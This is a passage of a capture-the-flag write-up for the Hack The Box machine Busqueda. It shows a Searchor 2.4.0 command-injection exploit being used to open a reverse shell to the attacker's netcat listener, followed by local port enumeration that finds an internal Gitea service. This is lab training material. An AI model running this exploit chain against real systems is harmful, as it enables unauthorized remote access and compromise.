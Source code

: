 ```console
Network Distance: 2 hops
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### web

Powered by Flask and Searchor 2.4.0

## Foothold

### CMD Injection

**Exploit**: [Searchor 2.4.0 Arbitrary CMD Injection](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

```console
└─╼$ ./exploit.sh searcher.htb 10.10.16.8
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is searcher.htb
[*] Input attacker is 10.10.16.8:9001
[*] Run the Reverse Shell... Press Ctrl+C after successful connection
-----------------------------------------------------------------------------
└─╼$ sudo rlwrap -cAr nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.208] 35904
bash: cannot set terminal process group (1684): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ id
id
uid=1000(svc) gid=1000(svc) groups=1000(svc)
svc@busqueda:/var/www/app$ uname -a
uname -a
Linux busqueda 5.15.0-69-generic #76-Ubuntu SMP Fri Mar 17 17:19:29 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation

### enum

- Gitea service: 3000 port

```console
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      1684/python3
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:40289         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:222           0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -

svc@busqueda:/dev/shm$ curl localhost:3000
curl localhost:3000
<!DOCTYPE html>
<html lang="en-US" class="theme-auto">
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>Gitea: Git with a cup of tea</title>
```